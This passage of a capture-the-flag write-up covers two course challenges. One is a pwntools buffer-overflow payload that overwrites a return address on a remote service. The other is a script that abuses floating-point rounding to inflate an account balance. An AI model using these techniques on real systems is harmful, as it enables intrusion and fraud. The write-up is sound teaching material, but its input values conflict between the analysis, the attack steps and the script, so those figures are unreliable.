 ### Payload
```python
#!/usr/bin/python3

from pwn import *

r = remote('hw00.zoolab.org', 65534)
target = p64(0x401195)

r.sendline(b'a'*24 + target)

r.interactive()
```

## The floating Aquamarine 💀 (misc)
Use **floating point error** to get money.

### Analysis
```
1. 1000000000: -8888000000(expect) => -8887999488(real) (diff 512)
2. -1000: -8887911120(expect) ==> -8887910400(real)  (diff 720)
3. -1000: -8887822240(expect) ==> -8887821312(real) (diff 928)
4. -99997000: 0(expect) ==> 1024(real) (diff 1024)
```

I find (8887999488 - 8887910400) == (8887910400 - 8887821312) == 89088, which (88.88*10000 == 88880) != 89088.</br>
I don't know the accurate reason why I do 1~4 will make the balance crease $1024, but I think that those operations of floating point will cause **the "Exponent" bit creases one bit**.

### Attack
My payload:
1. 100000000
2. -1000
3. -1000
4. -90008000
5. goto 1.

Everytime you do 1~4, you will get $1024.</br>
When you do it three times repeatly, you will get $3072 and flag!

### Payload
```python
#!/usr/bin/python3

from pwn import *

r = remote('hw00.zoolab.org', 65535)

def qq():
	r.sendline('100000000')
	r.sendline('-1000')
	r.sendline('-1000')
	r.sendline('-99998000')

qq()
qq()
qq()

r.interactive()
```
